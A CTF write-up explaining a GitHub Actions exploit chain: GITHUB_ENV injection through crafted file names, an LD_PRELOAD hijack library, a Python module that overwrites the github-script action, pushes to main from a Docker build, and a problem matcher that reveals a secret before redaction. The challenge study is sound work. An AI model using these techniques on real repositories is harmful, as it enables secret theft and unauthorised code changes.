

+++
title = 'Hack.lu CTF 2025: KONTINUERLIG (Misc)'
date = 2025-10-19T10:00:00+01:00
draft = false
+++

KONTINUERLIG was an awesome challenge on GitHub Actions security by my
teammate Paul [^1] which I had the pleasure of test-solving during the
CTF preparations. It combines multiple (and novel) exploitation techniques
that are commonly found in real-world GHA configurations.

We're presented with a private GitHub repo with a GitHub actions secret named
`flag` (which is the challenge flag) with the following layout:

```plaintext
.
├── .github
│   └── workflows
│       ├── flag.yml
│       ├── pr_check.yml
│       └── prerelease.yml
├── docker
│   └── Dockerfile
└── README.md
```

Obviously, the interesting files are the GitHub Actions workflows and the Dockerfile. The Dockerfile,
however, will only become relevant later. The `flag` secret is only being used in the `flag.yml`
workflow, so it's likely that we have to somehow pivout our way through the existing workflows to leak
the secret from the `flag.yml` workflow.

A first thing to notice is that two of the workflows (`flag.yml` and `prerelease.yml`)
only get executed if the `reviewed` and `flag` labels are attached to a PR. However,
these labels don't even exist in the repository we get. This means we need to exploit
the `pr_check.yml` workflow to create these, or satisfy the conditionals by other means.
In any case, we can deduct that `pr_check.yml` must be our entrypoint.

## Creating labels and labelling PRs

If you've worked with GHA security before, your spidey-senses should probably pop up when
looking at `pr_check.yml`. The `pull_request_target` workflow trigger comes with inherent
risks [^2], which get amplified if the untrusted code of the PR target branch is checked out,
which is precisely what happens in `pr_check.yml`, enabling a so-called "pwn request". [^3]

`pr_check.yml` looks as follows:

```yaml
name: PR Check

on: pull_request_target

jobs:
  pre-check:
    if: "!contains(github.event.pull_request.labels.*.name, 'reviewed')"
    runs-on: ubuntu-24.04
    timeout-minutes: 1
    permissions:
      contents: read
    steps:
      - name: Checkout
        uses: actions/checkout@v5
        with:
          ref: ${{ github.event.pull_request.head.sha }}
          fetch-depth: 0
      - name: Extract changed files
        run: |
          git diff --name-only ${{ github.event.pull_request.base.sha }} > /tmp/changed-files.txt
          echo "CHANGED_FILES<<EOF" >> $GITHUB_ENV
          cat /tmp/changed-files.txt >> $GITHUB_ENV
          echo "EOF" >> $GITHUB_ENV
      - name: Upload result
        if: ${{ env.CHANGED_FILES != '' }}
        uses: actions/upload-artifact@v4
        with:
          name: changed
          path: /tmp/changed-files.txt
          retention-days: 1
  comment:
    needs: pre-check
    runs-on: ubuntu-24.04
    timeout-minutes: 1
    permissions:
      pull-requests: write
    steps:
      - name: Download artifact
        uses: actions/download-artifact@v4
        with:
          name: changed
      - name: Convert to JSON
        run: |
          python3 -c 'import json; print("CHANGED=" + json.dumps(open("./changed-files.txt", "r").read().strip().splitlines()))' >> $GITHUB_ENV
      - name: Comment
        uses: actions/github-script@v7
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
          script: |
            const changed = JSON.parse(process.env.CHANGED);
            github.rest.issues.createComment({
              issue_number: context.issue.number,
              owner: context.repo.owner,
              repo: context.repo.repo,
              body: 'Files changed in this PR:\n' + changed.map(f => '- ' + f).join('\n'),
            });
```

The issue is caused by `write` permissions on workflows run through the `pull_request_target`
trigger and the attacker-controlled code running in the affected workflow.

However, the `pr_check.yml` workflow doesn't actually do anything with our code except for
querying for the changed files and saving them. So how do we get code execution out of this?

The interesting part lies in how the changed workflow files are extracted and saved exactly:

```bash
git diff --name-only ${{ github.event.pull_request.base.sha }} > /tmp/changed-files.txt
echo "CHANGED_FILES<<EOF" >> $GITHUB_ENV
cat /tmp/changed-files.txt >> $GITHUB_ENV
echo "EOF" >> $GITHUB_ENV
```

The `git diff` command extracts the changed file names and saves them in `/tmp/changed-files.txt`,
which subsequently is extracted to the `GITHUB_ENV` global variable, which is persisted across
steps in a composite workflow. It does so via a Bash "heredoc", in this case delimited by the `EOF`
string. So if we could insert an `EOF` ourselves, followed by some controlled content of us, we might be
able to inject additional environment variables, which is a pretty powerful primitive, and even flagged
by GitHub's own GHA CodeQL ruleset. [^4]

And indeed, with the correct repository tree, we can trigger the injection:

```plaintext
├── AAA
├── docker
│   └── Dockerfile
├── EOF
├── hijack.py
├── json.py
├── LD_PRELOAD=
│   └── home
│       └── runner
│           └── work
│               └── KONTINUERLIG-msanft
│                   └── KONTINUERLIG-msanft
│                       └── libinject.so
├── libinject.so
├── main.c
├── README.md
└── ZZZ<<EOF
```

Resulting in the following ordering in the inclusion in the heredoc:

```plaintext
$ git diff --name-only 00dcde8c33f66d8bacf1512f567d23ceb7b988c2
AAA
EOF
LD_PRELOAD=/home/runner/work/KONTINUERLIG-msanft/KONTINUERLIG-msanft/libinject.so
ZZZ<<EOF
hijack.py
json.py
libinject.so
main.c
```

The `AAA` is just some placeholder content for the initial heredoc, which is then closed by the `EOF`.
Then, our injection part starts. In this case, I use the `LD_PRELOAD` variable to load a malicious
shared object:

```c
// clang -fPIC -shared -o libinject.so main.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

void __attribute__((constructor)) foo() {
  printf("injection!!!\n");
  pid_t pid = fork();
  if (pid == 0) {
    extern char **environ;
    char **new_environ = environ;

    // Count environment variables
    int count = 0;
    while (environ[count])
      count++;

    // Allocate new environment array
    char **filtered_env = malloc((count + 1) * sizeof(char *));
    int j = 0;

    // Copy all environment variables except LD_PRELOAD
    for (int i = 0; environ[i]; i++) {
      if (strncmp(environ[i], "LD_PRELOAD=", 11) != 0) {
        filtered_env[j++] = environ[i];
      }
    }
    filtered_env[j] = NULL;

    execve("/usr/bin/python3", (char *[]){"python3", "hijack.py", NULL},
           filtered_env);
  } else if (pid > 0) {
    int status;
    waitpid(pid, &status, 0);
  }

  setenv("INPUT_PATH",
         "/home/runner/work/KONTINUERLIG-msanft/KONTINUERLIG-msanft/json.py",
         1);
}
```

This executes the `hijack.py` script directly. So did we win already? Not quite, since
we're being executed in the context of the `pre-check` job, which only has `contents: read` permissions.

However, GitHub Actions input variables within a job are being set via environment variables (of form `INPUT_*`),
which we can manipulate in our malicious shared object as well. So by setting the `INPUT_PATH` variable, we can
overwrite the artifact that's being uploaded to the `comment` step with the `pull-requests: write` permission.

In this case, we can exploit this by uploading a `json.py` file, which shadows the `json` Python standard library
import:

```py
with open("changed-files.txt", "w") as f:
    f.write("no!\n")

with open("/home/runner/work/_actions/actions/github-script/v7/dist/index.js", "w") as f:
    f.write("""
process.env.GH_TOKEN = process.env['INPUT_GITHUB-TOKEN'];

const { execSync } = require('child_process');

let output = execSync('gh label create flag --repo kontinuerlig-chal/KONTINUERLIG-msanft --color "d73a4a" --description flag', { encoding: 'utf-8' });
console.log(output);
output = execSync('gh label create reviewed --repo kontinuerlig-chal/KONTINUERLIG-msanft --color "d73a4a" --description reviewed', { encoding: 'utf-8' });
console.log(output);

// output = execSync('gh pr edit --add-label "reviewed" --repo kontinuerlig-chal/KONTINUERLIG-msanft 2', { encoding: 'utf-8' });
// console.log(output);

// output = execSync('gh pr edit --add-label "flag" --repo kontinuerlig-chal/KONTINUERLIG-msanft 3', { encoding: 'utf-8' });
// console.log(output);
""")

def dumps(obj, **kwargs):
    return '[]'
```

Here, we simply override the GitHub script file being executed in the `Comment` step with our own commands, where we
create (and later assign) the required labels, giving us the primitives we need to continue with the other workflows.

Since the `flag.yml` workflow is of relatively low complexity, and just prints the redacted flag, it was obvious that
the `prerelease.yml` workflow would be the next target in our exploitation chain.

## Altering the `main` branch contents

As the `flag.yml` workflow runs in the context of the base branch (i.e. `main`), and there's no input to the workflow
except for that, it's inevitable that we need to alter the contents of the `main` branch to achieve anything there.

In the `prerelease.yml` workflow, the Dockerfile is being built with the `contents: write` permission:

```Dockerfile
# Dockerfile
FROM alpine
RUN echo "You'll need to assemble the build yourself"
```

---

```yaml
# prerelease.yml
name: Prerelease

on: pull_request_target

jobs:
  prerelease:
    if: contains(github.event.pull_request.labels.*.name, 'reviewed')
    runs-on: ubuntu-24.04
    timeout-minutes: 1
    permissions:
      contents: write
    steps:
      - uses: actions/checkout@v5
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - name: Test build
        run: |
          # Isolate the build in Docker
          docker build ./docker/
          echo 'Build succeeded!'
      - name: Release
        env:
          GH_TOKEN: ${{ github.token }}
        run: gh release create --prerelease --generate-notes rel-${{ github.event.pull_request.head.sha }}-pre
```

This allows us to push to the repository's `main` branch, so we need to find a way to commit to the
repository using the contents of the Dockerfile only.

We can do so pretty easily by adding a `RUN` instruction to the Dockerfile. However, a little issue we need to overcome
is the Docker build executing in the context of the `docker` directory, which doesn't have access to the enclosing
directory, including the `.git` directory that stores the token with write permissions which is required for pushing
to the repository.

Therfore, we simply link the `docker` directory to `.` (i.e. the repository root), and add the Dockerfile there.

There, we can then leverage a Python script to commit to the `main` branch:

```py
import os

os.system("cp -r /foo /tmp/foo")
os.system("cd /tmp/foo && git config --global user.name foo && git config --global user.email foo@bar.com")
os.system("cd /tmp/foo; git fetch; git switch main")

with open("/tmp/foo/somefile", "w") as f:
    f.write("""
foo
""")

os.system("cd /tmp/foo; git add test.json; git commit -m 'lol'; git push origin main")
```

This works and commits to the `main` branch of the repository! (after labelling the PR correctly
using the exploit from the `pr_check.yml` workflow) - Nice.

## Leaking the flag

This was the most intricate part of the challenge, which left me searching for the right entrypoint for hours.
However, it's also the most interesting part, as the solution requires exploitation of a novel technique, and
a widely unknown feature.

The `flag.yml` workflow only prints the `flag` secret to the screen:

```yaml
name: Get Flag

on: pull_request_target

jobs:
  flag:
    if: contains(github.event.pull_request.labels.*.name, 'flag')
    runs-on: ubuntu-24.04
    timeout-minutes: 1
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@v5
      - name: Message
        run: |
          echo "Your last words before not getting the flag:"
          git show -1 -s --format=%s
      - name: Flag
        env:
          FLAG: ${{ secrets.FLAG }}
        run: echo "$FLAG"
```

However, executing the workflow is not a direct win, as GitHub redacts GHA secrets that make it to the workflow output. [^5]

I'll spare all the silly things and ideas I tried for this part of the challenge in this writeup for brevity
(and the sanity of the reader), but skip right through the interesting part; Eventually, I looked through
the source code of the GitHub Actions Runner, which is the code that's responsible for running the individual
steps of a job.

Scrolling the source, especially the part of the workflow lifecycle *before* secrets get redacted in the output,
we see that "problem matchers" (dubbed `IssueMatcher`s in the source code) [^6] are applied before the redaction. [^7]

Problem matchers essentially give you a primitive of adding regular expression matchers to your repository, which can be activated
through a "workflow command" [^8] (i.e. a specific output line in a workflow) and are then applied to the subsequent
workflow output, displaying matching sections in a specific manner in the workflow summary and output page. An example for the
intended usage of this feature is usage in linters, for example, which highlight found issues for the user in a PR check.

However, since they run *prior* to the secret redaction, they allow us to match on the secret contents. So if we partially know
the secret contents (which is the case for us, since we know the `flag{...}` format), we can write a matcher that will trigger
on the workflow output and display the unredacted secret.

```json
{
    "problemMatcher": [
        {
            "owner": "flag",
            "pattern": [
                {
                    "regexp": "^flag\\\\{(.*)\\\\}$",
                    "message": 1
                }
            ]
        }
    ]
}
```

Since the `flag.yml` workflow conveniently echo's the commit message of the commit it runs on, we can leverage this to add
the problem matcher with the `add-matcher` command:

```py
import os

os.system("cp -r /foo /tmp/foo")
os.system("cd /tmp/foo && git config --global user.name foo && git config --global user.email foo@bar.com")
os.system("cd /tmp/foo; git fetch; git switch main")

with open("/tmp/foo/test.json", "w") as f:
    f.write("""
{
    "problemMatcher": [
        {
            "owner": "flag",
            "pattern": [
                {
                    "regexp": "^flag\\\\{(.*)\\\\}$",
                    "message": 1
                }
            ]
        }
    ]
}
""")

os.system("cd /tmp/foo; git add test.json; git commit -m '::add-matcher::test.json'; git push origin main")
```

Using this payload via the Dockerfile, we can then commit the problem matcher to main, and open a separate PR
labelled with the `flag` label to trigger the `flag.yml` workflow.

And indeed, this works, and displays the flag:



I had a lot of fun testing the challenge, and it shows again just how delicate running GitHub Actions on PRs
of untrusted contributors can be, as underlined by the flag contents.🦶🔫

[^1]: <https://x.com/pspaul95/>
[^2]: <https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows#pull_request_target>
[^3]: <https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/>
[^4]: <https://codeql.github.com/codeql-query-help/actions/actions-envvar-injection-critical/>
[^5]: <https://docs.github.com/en/actions/how-tos/write-workflows/choose-what-workflows-do/use-secrets>
[^6]: <https://fusectore.dev/2021/11/19/github-action-problem-matchers.html>, <https://github.com/actions/runner/blob/60af948051cbeaf51d87397c40354c1496fcdd8f/docs/adrs/0276-problem-matchers.md?plain=1#L23>
[^7]: <https://github.com/actions/runner/blob/60af948051cbeaf51d87397c40354c1496fcdd8f/src/Runner.Worker/ActionCommandManager.cs#L493>
[^8]: <https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-commands>
